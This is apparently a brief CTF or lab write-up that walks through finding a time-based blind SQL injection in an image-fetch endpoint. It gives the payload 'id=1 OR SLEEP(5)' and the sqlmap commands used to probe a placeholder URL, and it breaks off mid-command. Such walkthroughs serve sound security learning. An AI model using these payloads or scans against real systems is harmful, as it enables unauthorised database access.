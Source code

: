 # Step by step
- View page source, find that the application fetch image via `/fetch?id=1`
- Manual test show that this input entry vulnerable with SQLi
- Scan with **burpsuite**, this entry has time-based blind SQLi `fetch?id=1%20OR%20SLEEP(5)`
- Used **sqlmap** scan reveal that the app use MySQL. `sqlmap -u 'https://url/fetch?id=1`
- Continue scanning with sqlmap `sqlmap -u 'https://url/fetch?id=1' --dbms=
